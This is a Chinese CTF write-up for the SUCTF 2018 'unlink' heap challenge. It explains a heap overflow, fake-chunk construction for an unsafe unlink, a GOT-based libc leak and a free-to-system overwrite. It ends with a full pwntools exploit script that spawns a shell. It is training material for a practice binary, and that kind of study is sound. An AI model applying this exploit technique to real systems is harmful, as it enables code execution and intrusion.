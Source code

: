 # 题目：unlink任意分配chunk

题目地址：[[SUCTF 2018 招新赛\]unlink | NSSCTF](https://www.nssctf.cn/problem/2334)

## 思路：

1. 利用unlink前提，必须要有一个位置存储了chunkP的地址（本题时heaplist中存储了），才能基于此构造来绕过检测。
1. 构造unlink，实现heaplist指针修改，再编辑实现任意地址读写。

## 分析：

1. touch函数，size足够大，chunk不能超过11个：

   ![image-20240713143617347](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131436412.png)

2. delete函数，heap指针清0，没有UAF漏洞：

   ![image-20240713143708871](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131437933.png)

3. show函数，结合delete函数，所以不存在UAF漏洞：

   ![image-20240713143737663](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131437714.png)

4. edit函数，存在堆溢出：

   ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132040131.png)

## 利用：

1. buf的位置存着heap指针，可以基于此构造unlink：

   ![image-20240713205229172](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132052353.png)

   检查：

   ![image-20240713205258769](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132052829.png)

   确定：

   * fd=fakeDF_addr=buf-0x18(绕过第一个检查)，
   * bk=fakeBK_addr=buf-0x10(绕过第二个检查)。
   * 最后FakeBK->fd 即 *(fakeBK_addr+0x10)=fakeDF_addr=buf-0x18（因为写入的地址是同一处，所以第一次写入fakeBK地址会被覆盖）。：

   ```python
   buf = 0x6020C0
   add(0x20)   #0 用来构造unlink
   add(0x80)   #1 用来触发unlink 
   add(0x10)   #2 切割开top chunk ，防止合并
   
   prev_size = p64(0)
   size = p64(0x20)
   
   fd = buf-0x18   #fakeDF_addr
   bk = buf-0x10   #fakeBK_addr
   content = p64(fd)+p64(bk)
   of_prve_size = p64(0x20)	#构造的chunkP的大小，prev_size在前一个chunk空闲时存放其大小（包括头）
   of_chunk_size = p64(0x90)	#在释放free(1)时向下合并，触发对chunkP的unlink，
   
   payload0 = prev_size + size + content + of_prve_size + of_chunk_size
   edit(0,payload0)
   ```

   绕过检测：

   ![image-20240713210902993](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132109190.png)

2. free(1)触发unlink，向buf[0]写入fd值：

   ```python
   free(1)
   ```

   ![image-20240713211302394](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132113641.png)

3. 继续控制buf[1]:

   ```python
   #用buf[0]地址，覆盖heaplist0，进而能往buf[0]上写入数据，此后即可任意地址读写数据（buf[1]作为跳板写入任意地址）自此buf[1]变成傀儡
   payload0 = p64(0)*3 + p64(0x6020c8)
   edit(0,payload0)
   ```

   ![image-20240713212017702](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132120806.png)

4. 覆盖buf[1]指向puts函数的got表，进而**泄漏puts函数的地址和libc基地址**：

   ```python
   #往0x6020c8即buf[1]写puts函数的got表地址
   payload0 = p64(elf.got["puts"])
   edit(0,payload0)
   
   show(1)
   p.recv()
   puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("puts_addr==>"+hex(puts_addr))
   
   libc_base = puts_addr-libc.symbols["puts"]
   success("libc_addr==>"+hex(libc_base))
   
   system_addr = libc_base+libc.sym["system"]
   success("system_addr==>"+hex(system_addr))
   ```

   ![image-20240713212245582](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132122774.png)

5. 继续控制buf[1]，往free函数的got表写入system函数地址：

   ```python
   #先传地址
   payload0 = p64(elf.got["free"])
   edit(0,payload0)
   #再覆盖free函数的got表
   payload1 = p64(system_addr)
   edit(1,payload1)
   ```

   ![image-20240713212607125](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132126568.png)

6. 最后构造一个system("/bin/sh") 就能拿到shell：

   ```python
   edit(2,b"/bin/sh\x00")
   free(2)
   ```

7. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node4.anna.nssctf.cn",28460)
   p = process("./pwn")
   libc = ELF('./libc-2.23.so')
   elf = ELF("./pwn")
   
   
   def add(size):
       p.sendlineafter(b':','1')
       p.sendlineafter(b':',str(size))
       # p.sendlineafter(b':',content)
   
   def edit(index, content):
       p.sendlineafter(b':','4')
       p.sendlineafter(b':',str(index).encode())
       # p.sendlineafter(':',str(len(content)))
       p.sendafter(b'content',content)
   
   def show(index):
       p.sendlineafter(b':',b'3')
       p.sendlineafter(b'show',str(index).encode())
   
   def free(index):
       p.sendlineafter(b':','2')
       p.sendlineafter(b'delete',str(index).encode())
   
   buf = 0x6020C0
   add(0x20)   #0 用来构造unlink
   add(0x80)   #1 用来触发unlink 
   add(0x10)   #2 切割开top chunk ，防止合并
   
   prev_size = p64(0)
   size = p64(0x20)
   
   fd = buf-0x18   #下一个chunk的地址
   bk = buf-0x10   #上一个chunk的地址
   content = p64(fd)+p64(bk)
   of_prve_size = p64(0x20)
   of_chunk_size = p64(0x90)
   
   payload0 = prev_size + size + content + of_prve_size + of_chunk_size
   edit(0,payload0)
   
   free(1)
   
   #覆盖heaplist0
   payload0 = p64(0)*3 + p64(0x6020c8)
   edit(0,payload0)
   
   #利用覆盖heaplist0，往0x6020c8写puts函数的got表地址
   payload0 = p64(elf.got["puts"])
   edit(0,payload0)
   
   show(1)
   p.recv()
   puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("puts_addr==>"+hex(puts_addr))
   
   libc_base = puts_addr-libc.symbols["puts"]
   success("libc_addr==>"+hex(libc_base))
   
   system_addr = libc_base+libc.sym["system"]
   success("system_addr==>"+hex(system_addr))
   
   payload0 = p64(elf.got["free"])
   edit(0,payload0)
   
   payload1 = p64(system_addr)
   edit(1,payload1)
   
   edit(2,b"/bin/sh\x00")
   free(2)
   
   p.sendline(b"cat flag")
   p.interactive()
   ```

   成功拿到flag

   ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407132131097.png)


